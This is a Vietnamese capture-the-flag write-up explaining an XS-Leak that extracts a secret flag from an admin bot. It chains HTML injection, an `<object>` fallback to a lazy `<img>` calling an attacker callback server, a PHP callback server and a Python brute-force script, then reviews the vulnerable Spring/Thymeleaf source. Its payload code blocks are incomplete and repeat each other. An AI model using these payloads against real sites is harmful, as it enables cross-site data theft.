Ý tưởng của mình là khiến trình duyệt của bot gửi request về server mình kiểm soát tùy theo kết quả tìm kiếm. Khi đó, mình có thể dựa vào tín hiệu này để phân biệt ứng viên khớp hay không khớp. Vì đã có HTML Injection, mình tiếp tục tìm xem có thẻ HTML nào giúp tạo ra hành vi đó mà không cần JavaScript hay không.

Sau một hồi nghiên cứu thì mình biết được có tag `<object data=...></object>`



Theo ví dụ trong ảnh, nếu dữ liệu trong thuộc tính `data` không thể quét được, HTML sẽ fallback vào child-element bên trong thẻ `object`, cụ thể trong ảnh là `img`. Hành vi này khác hoàn toàn với tag chúng ta thường dùng trong các bài HTML Injection, XSS là `iframe`. Nếu dữ liệu cần quét bị lỗi, `iframe` không fallback vào child-element.

Như vậy có thể hình dung về payload của mình như sau:

```
/dashboard?search=<object data=/dashboard?search=flag></object>
```

Trong payload trên, đầu tiên, `object` tag sẽ request đến trang tìm kiếm và nếu flag đúng, child-element `img` sẽ không được render ra. Ngược lại, nếu flag sai, child-element được render ra và gửi tín hiệu đến attacker_server.

Để kiểm chứng, tạm thời mình dùng [webhook.site](https://webhook.site) làm attacker server để xem những gì phân tích có đúng không.



Trường hợp flag sai đã đúng như phân tích, webhook đã nhận được tín hiệu request từ thẻ `img`.



Nhưng trường hợp flag đúng không như phân tích, theo phân tích của mình ở trên. Nếu flag đúng thì `img` không được render ra, dẫn đến webhook sẽ không nhận được cú request nào cả. Tuy nhiên với ảnh trên thì webhook vẫn nhận được request.

Điều này là do mặc dù không được render ra, nhưng trình duyệt vẫn tự động quét đến nguồn của thẻ `img`, để khiến cho trình duyệt chỉ quét đến nguồn khi bị fallback vào thẻ `img` này, ta sử dụng thuộc tính `loading` với giá trị `lazy` cho thẻ `img`.

Payload chỉnh sửa như sau:

```
/dashboard?search=<object data=/dashboard?search=flag></object>
```



Lúc này thì đã đúng theo những gì mình mong muốn, flag đúng phần tiền tố, không có tín hiệu nào được request đến webhook.

Dưới đây là hình ảnh mô phỏng exploit chain (được tài trợ bởi gpt-6-astra theo ý tưởng hình vẽ của mình :3 ).



#### Creating the Callback Server and Bruteforce Script

Bây giờ mình sẽ dựng một callback server để ghi nhận các candidate sai. Mỗi khi nhận được callback từ bot với mode update, server sẽ tạo một folder có tên tương ứng với giá trị candidate được gửi về. Mình cũng thêm mode check để kiểm tra folder đó đã tồn tại hay chưa: nếu có thì trả về hit, nghĩa là candidate không phải tiền tố đúng của flag; ngược lại, server trả về ok.

```php
<?php
$BASE = '/tmp/ctf_hits';
@mkdir($BASE,0700,true);

$flag = $_GET['flag'] ?? '';
$mode = $_GET['mode'] ?? '';

$slot = "$BASE/$flag";

if ($mode === 'update') {
    if (@mkdir($slot, 0700)) {
        echo "marked";
    } else echo "already";
} elseif ($mode === 'check') {
    echo is_dir($slot) ? 'hit' : 'ok';
};
?>
```

Sau đó, mình viết script để tự động thử từng ký tự nối vào tiền tố đã biết, bắt đầu từ Với mỗi candidate, script gửi đường dẫn chứa payload tới `/report`. Sau khi bot xử lý payload, script truy vấn callback server bằng mode check. Nếu nhận được hit, script loại candidate đó; nếu nhận được ok, script giữ lại ký tự vừa thử và tiếp tục dò ký tự tiếp theo.

```python
import requests

session = requests.session()

burp0_url = "[INSTANCE URL]/report"
burp0_cookies = {"JSESSIONID": "0136229DD81534AE8AFCE53563420896"}
burp0_headers = { http header }
burp0_data = {"path": "/dashboard?search=%3Cobject+data%3D%2Fdashboard%3Fsearch%3D{}%3E%3Cimg+src%3D[ATTACKER SERVER URL]%3Fflag%3D{}%26mode%3D{}+loading%3Dlazy+%2F%3E%3C%2Fobject%3E"}

candidate = "abcdefghijklmnopqrstuvwxyz}" +  "0123456789"
flag = "W1{"

def add_candidate(flag):
    payload = {"path": burp0_data["path"].format(flag, flag, "update")}
    session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=payload)

def check_candidate(flag):
    url = "[ATTACKER SERVER URL]?flag={}&mode=check".format(flag)
    response = requests.get(url=url)
    if (response.text == "hit"):
        return False
    else:
        return True

while True:
    found_new_char = False

    for char in candidate:
        test_flag = flag + char
        print("[+]Testing: {}".format(test_flag))
        add_candidate(test_flag)

        if (check_candidate(test_flag)):
            found_new_char = True
            flag += char
            break

    print(flag)
    if (not found_new_char): break
```

Chạy cả callback server và bruteforce script, ta được flag:

```
W1{f69d2c0a}
```

### Full Exploit Chain

Tổng hợp lại, exploit chain của mình sẽ đi theo flow sau:

1. Mình gửi một path tới `/report` để admin bot truy cập vào `/dashboard?search=...`.

2. Trong tham số `search`, mình inject payload HTML chứa thẻ `object`. Thuộc tính `data` của `object` trỏ tới `/dashboard?search=<candidate>`, tức là bot sẽ dùng session admin để thực hiện search với candidate hiện tại.

3. Nếu candidate là tiền tố đúng của flag, trang search trả về kết quả hợp lệ. Khi đó `object` load được response từ cùng origin và fallback content bên trong không được render, nên callback image không được gọi.

4. Nếu candidate không khớp, trang search trả về trạng thái lỗi/no result. Khi đó `object` fallback sang child-element bên trong, làm cho thẻ `img` được render và gửi request về callback server của mình.

5. Callback server ghi nhận candidate sai bằng mode `update`. Sau đó script dùng mode `check` để biết candidate nào đã tạo callback. Candidate nào không có callback thì được giữ lại làm tiền tố đúng tiếp theo của flag.

Bằng cách lặp lại quá trình này cho từng ký tự, mình có thể leak dần flag mà không cần đọc trực tiếp response của admin bot.

### Source Code Review

Sau khi có exploit chain, mình đối chiếu lại với source code để xác nhận các primitive đã dùng.

Đầu tiên, HTML Injection xuất hiện ở `app/BOOT-INF/classes/templates/dashboard.html:20`:

```html
<p th:if="${noResults}" class="sink">Keyword: <span th:utext="${search}">NOTHING</span> was not found on this server.</p>
```

Ở đây `search` được render bằng `th:utext`, tức là Thymeleaf sẽ render raw HTML thay vì escape như `th:text`. Vì vậy khi search không có kết quả, payload HTML trong tham số `search` có thể được chèn thẳng vào DOM.

Luồng xử lý search nằm trong `app/BOOT-INF/classes/org/example/meme_library/controllers/DashboardController.java:28-43`:

```java
model.addAttribute("search", search == null ? "" : search);
if (search != null && !search.isBlank()) {
   boolean admin = Boolean.TRUE.equals(session.getAttribute("isAdmin"));
   List<Meme> visible = this.memeService.visibleSearch(search, admin);
   if (visible.isEmpty()) {
      model.addAttribute("noResults", true);
      response.setStatus(404);
      return "dashboard";
   } else {
      model.addAttribute("memes", visible);
      return "dashboard";
   }
} else {
   model.addAttribute("memes", this.memeService.publicMemes());
   return "dashboard";
}
```

Đoạn này tạo ra oracle chính cho XS-Leaks: nếu candidate không match meme nào mà session hiện tại được phép xem thì response có status `404` và đi vào nhánh render `noResults`, còn nếu match thì trang trả về kết quả bình thường. Với session admin, search có thể thấy cả secret meme.

Điểm này được thể hiện rõ hơn trong `app/BOOT-INF/classes/org/example/meme_library/service/MemeService.java:13-30`:

```java
new Meme(41L, flag, true)
```

```java
public List<Meme> visibleSearch(String keyword, boolean admin) {
   return this.likeSearch(keyword).stream().filter((meme) -> admin || !meme.secret()).toList();
}
```

Flag được lưu như một meme có `secret=true`. User thường sẽ bị filter khỏi secret meme, nhưng admin bot có session admin nên kết quả search của bot có thể match flag. Vì search dùng dạng substring match, mình có thể thử dần từng prefix như `W1{...}`.

Phần CSP cũng khớp với kết quả test XSS trước đó ở `app/BOOT-INF/classes/org/example/meme_library/config/CspFilter.java:13-15`:

```java
response.setHeader("Content-Security-Policy", "default-src 'self'; img-src *; style-src 'self' https://stackpath.bootstrapcdn.com/;");
```

Policy này chặn inline script do không có `unsafe-inline`, nonce hoặc hash. Tuy nhiên `img-src *` vẫn cho phép browser gửi request ảnh ra callback server bên ngoài, nên payload không cần chạy JavaScript mà chỉ cần tạo side-channel bằng request ảnh.

Cuối cùng, `/report` là cầu nối để đưa payload vào browser của admin bot ở `app/BOOT-INF/classes/org/example/meme_library/controllers/ReportController.java:27-39`:

```java
String var10000 = this.baseUrl;
String url = var10000 + "/" + path;
model.addAttribute("msg", this.botService.visit(url) ? "success" : "fail");
```

Trong `app/BOOT-INF/classes/org/example/meme_library/service/BotService.java:55-57`, bot điền thông tin tài khoản admin và submit form đăng nhập:

```java
this.browser.findElement(By.name("username")).sendKeys(new CharSequence[]{this.adminUsername});
this.browser.findElement(By.name("password")).sendKeys(new CharSequence[]{this.adminPassword});
this.browser.findElement(By.id("submit")).click();
```

Sau đó, bot mở URL được report, chờ 3 giây rồi đóng tab tại `app/BOOT-INF/classes/org/example/meme_library/service/BotService.java:72-78`:

```java
String handle = this.openTab(url);
if (handle != null) {
   Thread.sleep(3000L);
   this.closeTab(handle);
   var3 = true;
   return var3;
}
```

Như vậy, exploit không cần đọc trực tiếp response của `/dashboard`. Mình chỉ cần ép admin bot load payload, để browser của bot tự request `/dashboard?search=<candidate>` bằng session admin, rồi quan sát callback image có được gọi hay không.

## References

- [XS-Leaks Wiki](https://xsleaks.dev/)
- [MDN Web Docs - Content-Security-Policy: default-src](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/default-src)
- [MDN Web Docs - `<object>`: The External Object element](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Elements/object)
- [MDN Web Docs - HTMLImageElement: loading property](https://developer.mozilla.org/en-US/docs/Web/API/HTMLImageElement/loading)
- [Thymeleaf Documentation - Unescaped Text](https://www.thymeleaf.org/doc/tutorials/3.1/usingthymeleaf.html#unescaped-text)
